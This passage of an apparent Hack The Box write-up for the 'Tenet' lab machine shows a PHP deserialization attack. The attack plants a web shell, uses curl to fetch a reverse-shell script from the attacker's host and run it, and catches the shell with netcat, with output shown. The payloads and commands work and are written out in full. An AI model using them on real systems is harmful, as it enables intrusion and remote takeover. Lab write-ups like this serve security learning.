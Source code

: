 Run this php file to get the class serialized:
```console
┌─[evyatar@parrot]─[/hackthebox/Tenet]
└──╼ $ php webshell.php 
O:14:"DatabaseExport":2:{s:9:"user_file";s:9:"shell.php";s:4:"data";s:30:"<?php system($_GET['cmd']); ?>";}
```
Now we can send the payload using ```http://10.10.10.223/sator.php?arepo=O:14:"DatabaseExport":2:{s:9:"user_file";s:9:"shell.php";s:4:"data";s:30:"<?php system($_GET['cmd']); ?>";}```

By access to the url above we get the output:

![sator.JPG](images/sator.JPG)

It's mean our payload created, Let's try to access it by ```http://10.10.10.223/shell.php?cmd=whoami```:

![wwwdata.JPG](images/wwwdata.JPG)

So now we can use ```curl``` to download from our machine the following php shell [http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz](http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz) and run it.

1. http://10.10.10.223/shell.php?cmd=curl http://10.10.14.14:8000/revshell.php - Download the php reverse shell
2. Listen to port you specify on php reverse shell called ```revshell.php```.
3. http://10.10.10.223/shell.php?cmd= php revshell.php - Run the php reverse shell.

And we get shell:
```console
┌─[evyatar@parrot]─[/hackthebox/Tenet]
└──╼ $nc -lvp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from tenet.htb [10.10.10.223] 21532
Linux tenet 4.15.0-129-generic #132-Ubuntu SMP Thu Dec 10 14:02:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 19:22:21 up  1:13,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

So by running ```ls /home``` we know we have user called ```neil```:
```console
$  ls /home
neil
```
